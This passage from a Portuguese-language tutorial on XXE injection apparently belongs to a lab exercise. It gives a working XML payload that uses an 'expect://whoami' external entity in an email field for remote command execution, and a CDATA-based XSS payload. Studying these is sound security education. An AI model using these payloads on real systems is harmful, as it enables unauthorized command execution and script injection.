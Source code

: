 `test@protonmail.com is already registered, try to remember your password`

Podemos ver que o `<email>` é um campo interessante para podermos testar.

Vamos tentar ver o usuário da aplicação através de UM RCE no campo de `email`, vamos utilizar o payload da seguinte maneira:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY roz SYSTEM "expect://whoami"> ]>
<root>
  <name>
    roz
  </name>
  <tel>
    40028922
  </tel>
  <email>
    &roz;
  </email>
  <password>
    ohnonononono
  </password>
</root>
```

Caso vulnerável o retorno será algo como:

`jarbas is already registered, try to remember your password` (Sim, jarbas é o usuário do servidor rodando a aplicação)

Então vimos que podemos executar códigos remotamente no servidor através de um XXE Injection.

### XSS via XXE

No caso de XSS poderemos utilizar [CDATA](https://en.wikipedia.org/wiki/CDATA) do XML para atacar, levando em conta o laboratório anterior poderemos utilizar o payload da seguinte maneira para executar códigos JS:

```xml
<?xml version="1.0" encoding="utf-8"?>
<root>
  <name>
    roz
  </name>
  <tel>
    40028922
  </tel>
  <email>
    <![CDATA[<]]>img src="" onerror=javascript:alert(1)<![CDATA[>]]>
  </email>
  <password>
    ohnonononono
  </password>
</root>
```
